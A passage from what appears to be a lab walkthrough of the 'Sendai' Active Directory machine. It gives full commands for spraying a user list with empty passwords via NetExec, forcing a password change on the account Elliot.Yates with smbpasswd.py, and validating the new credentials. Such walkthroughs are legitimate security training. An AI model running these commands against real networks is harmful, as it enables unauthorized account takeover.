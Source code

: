 Now let’s start spraying the users with empty password

```bash
nxc smb sendai.vl -u users.txt -p '' --continue-on-success
```

![image.png](../images/sendai%207.png)

> Notice that we got users that must change there password
> 

So let’s go and change the password of user Elliot.Yates

```bash
python3 smbpasswd.py -newpass 'remo123$' 'sendai.vl'/'Elliot.Yates':''@'10.10.109.249'
```

![image.png](../images/sendai%208.png)

> As we see we changed the user password
> 

So let’s validate the user password

```bash
nxc smb sendai.vl -u Elliot.Yates -p 'remo123$'
```
